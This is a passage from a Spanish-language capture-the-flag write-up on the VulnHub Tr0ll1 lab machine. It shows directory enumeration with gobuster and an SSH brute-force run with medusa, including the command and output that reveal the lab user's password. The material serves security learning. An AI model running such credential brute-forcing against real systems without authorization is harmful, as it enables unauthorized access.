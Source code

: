 ![secret0](/assets/img/commons/vulnhub/Tr0ll1/secret0.png){: .normal }

Probamos `gobuster`{: .filepath} para ambos paths `/`y `/secret/` pero no conseguimos información relevante.


## Explotación

---

Vamos a continuar realizando fuerza bruta mediante `medusa` sobre el protocolo SSH, con los archivos que encontramos, `which_one_lol.txt` y `Pass.txt` bajo el diccionario `rockyou`.

El resultado no muestra nada, lo cual parece ser una trampa, pero revisando la url `/0x0856BF/this_folder_contains_the_password`, si prestamos atención al mensaje, dice que la carpeta contiene la contraseña pero no el archivo `Pass.txt`{: .filepath}, con lo cual `Pass.txt` puede resultar siendo una clave, lo agregamos al archivo `Pass.txt` y probamos `medusa`{: .filepath}.

```bash
❯ medusa -h 10.11.12.13 -U which_one_lol.txt -P Pass.txt -M ssh -t 2
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

ACCOUNT CHECK: [ssh] Host: 10.11.12.13 (1 of 1, 0 complete) User: overflow (10 of 10, 8 complete) Password: Pass.txt (1 of 2 complete)
ACCOUNT FOUND: [ssh] Host: 10.11.12.13 User: overflow Password: Pass.txt [SUCCESS]
```

*Efectivamente, es la contraseña del usuario overflow.* 
